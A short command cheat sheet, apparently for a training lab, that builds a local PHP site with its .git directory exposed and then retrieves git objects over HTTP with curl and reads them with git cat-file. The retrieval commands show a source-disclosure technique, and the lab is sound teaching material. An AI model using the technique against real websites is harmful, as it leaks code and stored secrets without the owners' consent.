 # Commands Cheat Sheet

```php -v```

Check if you have PHP installed / the PHP version you have

```mkdir exposed-git```

Create a new directory named ```exposed-git```

```cd exposed-git```

"Change Directory" -> Enter ```exposed-git/```

```git init```

Initialize a new ```.git/``` directory

```echo "<h1>I will be hacked soon!</h1>" > index.php```

Create a file named ```index.php``` with the specified content

```php -S localhost:8000```

Run the PHP server on ```localhost:8000```

```touch config.php```

Create a new file named ```config.php```

```echo "<h1>You really thought you could hack me?</h1>" > error.php```

Create a file named ```error.php``` with the specified content

```git add .```

"Add" all files in the directory to git (i.e. create their objects)

```git commit -m "first commit"```

Create a commit object with the changes made (and added!) since the previous commit

```mkdir .git/objects/f4```

Create a new subdirectory inside ```objects/``` for the incoming file 

```curl localhost:8000/.git/objects/<HASH[0:2]>/<HASH[2:]> --output ./.git/objects/<HASH[0:2]>/<HASH[2:]>```

Download the file with specified hash from the server and add it in its respective location in the local repository

```git cat-file -p <HASH>```

Print to the console the content of the file specified by hash ```<HASH>``` in human-readable format.

```git cat-file -t <HASH>```

Print to the console the type of the file specified by hash ```<HASH>``` in human-readable format. Possibilities: tree; blob; commit; annotated tag.




